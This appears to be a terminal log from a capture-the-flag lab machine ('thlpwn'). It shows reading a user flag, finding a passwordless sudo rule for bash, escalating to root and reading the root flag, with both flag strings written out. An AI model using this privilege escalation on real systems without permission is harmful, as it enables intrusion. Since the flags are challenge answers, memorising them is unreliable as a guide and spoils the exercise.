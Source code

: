 The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 28 17:33:14 2025 from 192.168.56.7
================================================================================================================================

thluser@thlpwn:~$ whoami
thluser
thluser@thlpwn:~$ ls
flag.txt
thluser@thlpwn:~$ cat flag.txt 
THL{3x7K9mL2pQ8vW5nR4zT6yH}
thluser@thlpwn:~$ 



================================================================================================================================

thluser@thlpwn:~$ 
thluser@thlpwn:~$ sudo -l
Matching Defaults entries for thluser on thlpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User thluser may run the following commands on thlpwn:
    (ALL) NOPASSWD: /bin/bash
thluser@thlpwn:~$ 
================================================================================================================================

thluser@thlpwn:~$ sudo bash
root@thlpwn:/home/thluser# whoami
root
root@thlpwn:/home/thluser# cd /root/
root@thlpwn:~# ls
root.txt
root@thlpwn:~# cat root.txt 
THL{9sT2mK7xQ5pL3wV8nZ6bR4}
root@thlpwn:~# 

================================================================================================================================

================================================================================================================================

================================================================================================================================
